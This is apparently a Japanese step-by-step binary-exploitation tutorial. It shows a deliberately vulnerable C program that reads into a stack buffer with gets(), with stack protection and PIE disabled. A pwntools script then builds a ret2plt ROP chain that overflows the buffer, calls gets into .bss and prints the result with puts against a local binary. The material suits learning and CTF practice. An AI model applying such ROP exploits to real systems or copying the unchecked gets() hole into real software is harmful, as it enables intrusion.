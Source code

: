 
## Step by Stepで見ていきましょう
### exploit対象のバイナリ
```c=
/* bof.cd */
#include <stdio.h>
#include <stdlib.h>

void vuln()
{
    char buf[100];
    gets(buf);
    puts(buf);
    puts("[*] Done");
}

void main(void)
{
    vuln();
    exit(0);
}
```

セキュリティ機構
* SSP無効
* PIE無効
* Partial RELRO

### ret 2 PLT
まずはシンプルなret2pltで`puts`を呼び出し`/bin/sh\x00`を表示する。

```python=
#!/usr/bin/env python3
from pwn import *

elf = ELF("./chall")
rop = ROP(elf)

addr_plt_puts = elf.plt["puts"]
addr_plt_gets = elf.plt["gets"]
addr_plt_exit = elf.plt["exit"]
addr_bss = elf.bss()

addr_pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address 
addr_pop_rsi = rop.find_gadget(["pop rsi", "pop r15", "ret"]).address 
# addr_leave_ret = rop.find_gadget(["leave", "ret"])

stack_size = 0x800
base_stage = addr_bss + stack_size

target = process("./chall")

buf = b'A' * 0x78
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
buf += p64(addr_plt_gets)
buf += p64(addr_pop_rdi)
buf += p64(base_stage)
buf += p64(addr_plt_puts)
buf += p64(addr_plt_exit)

_ = input()
target.sendline(buf)
```